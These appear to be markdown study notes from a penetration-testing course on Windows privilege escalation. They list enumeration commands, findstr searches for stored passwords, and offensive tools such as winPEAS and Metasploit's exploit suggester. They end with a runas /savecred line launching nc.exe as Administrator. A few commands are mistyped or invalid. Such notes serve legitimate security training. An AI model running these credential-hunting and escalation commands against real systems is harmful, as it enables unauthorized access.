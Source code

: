 ### Windows Privesc TCM

## System Enumeration

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"` 

**Pull up patches**

`wmic qfe`

wmic qfe get Caption,Description,HotFixID,InstalledOn

**List all drives**

`wmic logicaldisk`

wmic logicaldisk get Caption,description,providername

## User E numeration

`whoami` 

**Find user privileges**

`whoami /priv`

**Groups you belong to**

`whoami /groups`

**Find users on this machine**

`net user`

**See who is part of a group**

`net localgroup administrators`

## Network Enumeration

`ipconfig && ipconfig /all`

**Drop arp table**

`arp -a`

**Read routing table**

`route print`

**See ports**

`netstat -nao`

## Password Hunting

**Search current directory**

`findstr /si password *.txt *.ini *.config`

## A/V and Firewall Enumeration

**Check windows defender**

`sc query windefend`

**Look for A/V**
`sc queryex type= service`

**Check firewall state**
`netsh advfirewall dump`

**Check firewall rules**
`net firewall show config`

## Automated Enumeration Tools
| Exectuables   | PowerShell    | Other | 
| ------------- | ------------- | ------------- |
| winPEAS.exe   | Sherlock.ps1  | windows-exploit-suggest.py |
| Seatbelt.exe  | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 | |
|SharpUp.exe | | |

**Exploit Suggester**
`run post/multi/recon/local_exploit_suggester`

**Windows Linux Subsystem**
Can be used to escalate privileges

## Token Impersonation

What are tokens?
Tokens are temp keys taht allow you access to a system/network without having to provide creds each time.

Two types:
* Delegate - Create for logging into a machine or using Remote Desktop
* Impersonate - "non-interactive" such as attaching a network drive or domain logon script

## RunAs

`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Users\Public\nc.exe`


